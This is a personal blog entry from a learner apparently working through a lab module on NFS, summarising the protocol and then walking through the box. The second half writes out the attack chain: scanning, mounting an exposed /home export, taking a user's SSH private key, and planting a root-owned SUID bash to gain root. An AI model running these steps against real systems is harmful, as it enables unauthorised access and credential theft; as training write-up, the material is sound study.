 ```yaml
---
title: Day 15
date: 2022-04-28
layout: post.njk
---
```


{{ page.date.toDateString }}

I wanted to knock out a module this morning, but I was busy with work again so I'm not getting to this until later.

The frist section is about NFS or [Network File System](https://en.wikipedia.org/wiki/Network_File_System). It just goes over the protocol at a high level but there are more details [here](https://docs.oracle.com/cd/E19683-01/816-4882/6mb2ipq7l/index.html).

I thought this was an interesting section in the reading:
> If someone wants to access a file using NFS, an RPC call is placed to NFSD (the NFS daemon) on the server. This call takes parameters such as:
> - The file handle
> - The name of the file to be accessed
> - The user's, user ID
> - The user's group ID
> These are used in determining access rights to the specified file. This is what controls user permissions, I.E read and write of files.

How do you pass the paramters into the call? Can it be faked? How does the authentication work? I'm guessing most of the exploitations will center around misconfigurations, but I'm curious how it works at a low level.

Here are some more usefule links:

- [datto](https://www.datto.com/blog/what-is-nfs-file-share)
- [sourceforge](http://nfs.sourceforge.net/)
- [arch linux](https://wiki.archlinux.org/title/NFS)

All the questions were easy and in the reading except for the question: what was the most recent version of NFS which I googled and got the answer on wikipedia.


In the enumeration phase of NFS I first learned about [nfs-common](https://packages.ubuntu.com/bionic/nfs-common).

So I first ran a port scan to see what ports are open I ran `nmap -sS <ip> -p-` I ran `-sS` to get information about the services running on the open ports.
I'm not sure if its the box but anytime I run a scan with -p- it's crazy slow.

Ok so that scan was going crazy slow it I changed it to:
> `nmap -sT <ip> -p 1-10000`

and I did it in chunks of 10000 and the results came back almost instantly. I did this up to 65535 and I figured out that there were 7 open ports and the NFS service was running on 2049.

I ran:
> `nmap -sS 10.10.86.162 -p 2049`
>
>`Starting Nmap 7.60 ( https://nmap.org ) at 2022-04-29 03:04 BST`

>`Nmap scan report for ip-10-10-86-162.eu-west-1.compute.internal (10.10.86.162)`

>`Host is up (0.00022s latency).`
>
>`PORT     STATE SERVICE`

>`2049/tcp open  nfs`

>`MAC Address: 02:67:85:2B:62:2F (Unknown)`
>
>`Nmap done: 1 IP address (1 host up) scanned in 0.55 seconds`

Not a ton of info there.

I ran:
>`$ /usr/sbin/showmount -e 10.10.86.162`
>
>`Export list for 10.10.86.162:`
>
>`/home *`

I ran:

>`$ sudo mount -t nfs 10.10.86.162:/home /tmp/mount -nolock`
> 
>`$ cd /tmp/mount`
>
>`$ ls`
>
>`cappucino`

That directory appeared to be a home directory for a user. It contained a .ssh file with an id_rsa. I copied that file out, changed the permissions to `600` and logged in via ssh using

>`ssh -i id_rsa cappucino@<ip>`.

Last part is exploiting NFS!

The reading talks about Root Squashing and the creation of SUID bit files.

So I downloaded the correspoding bash shell from this [github](https://github.com/TheRealPoloMints/Blog/blob/master/Security%20Challenge%20Walkthroughs/Networks%202/bash). I copied it into the mounted directory. I changed the owner to root via:

>`$ chown root bash`

I added the SUID permission via:
>`$ chmod +sx bash`

>`# ls -l bash`
>
>`-rwsr-sr-x 1 root root 1113504 Apr 29 03:25 bash`

Finally in the ssh session I ran:

> `./bash -p`

the -p flag maintains the permissions of the file.

I then got root and got the flag in the root directory!

This was a great section of the module. I definitely picked up a ton here, and I'm looking forward to the next two sections of this module.


Happy Hacking.